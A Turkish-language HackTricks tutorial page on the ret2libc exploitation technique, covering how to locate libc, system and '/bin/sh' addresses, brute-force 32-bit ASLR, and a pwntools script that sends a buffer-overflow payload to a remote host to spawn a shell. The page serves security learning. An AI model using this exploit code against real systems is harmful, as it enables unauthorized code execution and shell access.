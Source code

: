 # Ret2lib

<details>

<summary><strong>AWS hacklemeyi sıfırdan ileri seviyeye öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da **takip edin**.
* **Hacking püf noktalarınızı paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## **Temel Bilgiler**

**Ret2Libc**'nin özü, zayıf bir programın yürütme akışını, saldırgan tarafından sağlanan shellcode'un yığında yürütülmesi yerine, paylaşılan bir kütüphane içindeki bir işlevine yönlendirmektir (örneğin, **system**, **execve**, **strcpy**). Saldırgan, geri dönüş adresini değiştiren bir yük oluşturur ve yığında istenen kütüphane işlevine işaret ederken, aynı zamanda çağrı konvansiyonuna göre gerekli argümanların da doğru şekilde ayarlanmasını sağlar.

### **Örnek Adımlar (basitleştirilmiş)**

* Çağrılacak işlevin adresini alın (örneğin, system) ve çağrılacak komutu (örneğin, /bin/sh)
* İlk argümanı komut dizinine işaret edecek şekilde ve yürütme akışını işleve geçirecek şekilde ROP zinciri oluşturun

## Adresleri Bulma

* Kullanılan `libc`'nin mevcut makineden olduğunu varsayarsak, nerede bellekte yükleneceğini aşağıdaki komutla bulabilirsiniz:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

Eğer ASLR'nin libc adresini değiştirip değiştirmediğini kontrol etmek istiyorsanız şunu yapabilirsiniz:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* Kullanılan libc bilindiğinde, `system` işlevine olan ofseti bulmak da mümkündür:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* Kullanılan libc bilindiğinde, `/bin/sh` dizesinin işlevine olan ofseti bulmak da mümkündür:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### gdb-peda / GEF Kullanımı

Kullanılan libc bilindiğinde, Peda veya GEF kullanılarak **system** fonksiyonunun, **exit** fonksiyonunun ve **`/bin/sh`** dizesinin adresini elde etmek de mümkündür:
```
p system
p exit
find "/bin/sh"
```
### /proc/\<PID>/maps Kullanımı

Eğer işlem her konuştuğunuzda **çocuklar** oluşturuyorsa (ağ sunucusu) o dosyayı **okumayı deneyin** (muhtemelen root olmanız gerekecektir).

Burada işlem içinde **libc'nin tam olarak nerede yüklendiğini** ve işlemin her çocuğu için **nerede yükleneceğini** bulabilirsiniz.

![](<../../../../.gitbook/assets/image (95).png>)

Bu durumda **0xb75dc000** adresine yüklendi (Bu libc'nin taban adresi olacak)

## Bilinmeyen libc

Binary'nin yüklediği libc'yi **bilmediğiniz olabilir** (çünkü erişiminiz olmayan bir sunucuda olabilir). Bu durumda zafiyeti **bazı adresleri sızdırmak ve hangi libc** kütüphanesinin kullanıldığını bulmak için kötüye kullanabilirsiniz:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

Ve bunun için bir pwntools şablonunu şurada bulabilirsiniz:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## 32 bit ASLR'yi Atlatma

Bu brute-force saldırıları **yalnızca 32 bit sistemler için** kullanışlıdır.

* Eğer saldırı yerel ise, libc'nin taban adresini brute-force etmeyi deneyebilirsiniz (32 bit sistemler için kullanışlı):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Uzak bir sunucuyu hedef alıyorsanız, `libc` fonksiyonu `usleep`'in adresini **10 (örneğin) olarak argüman geçerek** **brute-force** deneyebilirsiniz. Eğer sunucu cevap vermek için **10 saniye daha fazla zaman alıyorsa**, bu fonksiyonun adresini buldunuz demektir.

## Tek Gadget

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib Kod Örneği

Bu örnekte ASLR brute-force kod içine entegre edilmiş ve zafiyetli ikili dosya uzak bir sunucuda bulunmaktadır:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib Kod Örneği

Örneği kontrol et:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (veya puts)

Bu, `printf`/`puts`'ı belirli verilerle bir argüman olarak çağırarak işlemdeki bilgileri **sızdırmayı** sağlar.

## Ret2printf

Bu temelde, bir **Ret2lib'i `printf` format dizesi zafiyetine dönüştürmek** için `ret2lib`'i kullanarak, değerleri istismar etmek için printf'i çağırmak anlamına gelir (anlamsız gibi görünse de mümkündür):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}
